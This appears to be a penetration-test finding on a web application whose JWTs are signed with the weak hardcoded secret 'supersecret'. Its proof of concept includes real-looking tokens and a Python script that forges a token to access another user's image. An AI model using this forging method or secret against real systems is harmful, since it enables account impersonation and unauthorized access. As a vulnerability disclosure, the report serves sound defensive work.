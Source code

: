 # Description


- **Type:** Broken Authentication / JWT Secret Disclosure  
- **Location:** All JWT-protected endpoints  
- **Severity:** 🔴 High  
- **Impact:** Token forgery, role escalation, account impersonation  

The application uses **JSON Web Tokens (JWT)** for authentication and authorization, signed with the `HS256` algorithm.  
During testing, it was discovered that the JWT secret is set to a **weak hardcoded value**: supersecret  

![jwt](../images/jwt.jpg)  

This secret is trivially guessable via brute-force or dictionary attacks using tools like `jwt-cracker`, `jwt_tool`, or `hashcat`.  

By signing arbitrary tokens with the known secret, it is possible to forge valid JWTs and escalate privileges  


## PoC 

For that PoC I created 2 different account with given JWTs:

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzQyLCJsb2dpbiI6Inlob3JtIiwibWFpbCI6IjEyM0AxMjMuY29tIiwicm9sZSI6InVzZXIiLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.  2W9Jjpmbh8XS8QmfJRJX5tAb_LoIiiWFRfkprJXj6W4

When decoded:

```
{
  "id": 342,
  "login": "yhorm",
  "mail": "123@123.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

And second 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzYwLCJsb2dpbiI6IlBPT0MiLCJtYWlsIjoiMzFAMzIyLmNvbSIsInJvbGUiOiJ1c2VyIiwiaXAiOiIxNDYuMTU4LjY2LjIwOSJ9.v0FPpLfWFAqPO7iskaHPckFLmqubk3Gep00xx_C1L-0  

```json
{
  "id": 360,
  "login": "POOC",
  "mail": "31@322.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

With that tokens we will try to access /images.php?id=13921 (POOC user image) which is not accesible to 'yhorm' user.  
[jwt_poc](../images/jwt_poc.jpg)  

After testing it was clear that we can access others image only by changing **id** value.  
```python
import jwt

secret = "supersecret"

payload = {
    "id": 360, #id for POOC user
    "login": "yhorm",
    "role": "user",
    "mail": "123@123.com",
    "ip": "146.158.66.209"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
New jwt token:  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MzYwLCJsb2dpbiI6Inlob3JtIiwicm9sZSI6InVzZXIiLCJtYWlsIjoiMTIzQDEyMy5jb20iLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.0ej8hhRWs6vqNhRNQ4w-7G2xTSEqixOzFPauTyIxY6c

![jwttt](..images/jwt_final.jpg)

Successfully got access to other account image only by changing id value. 

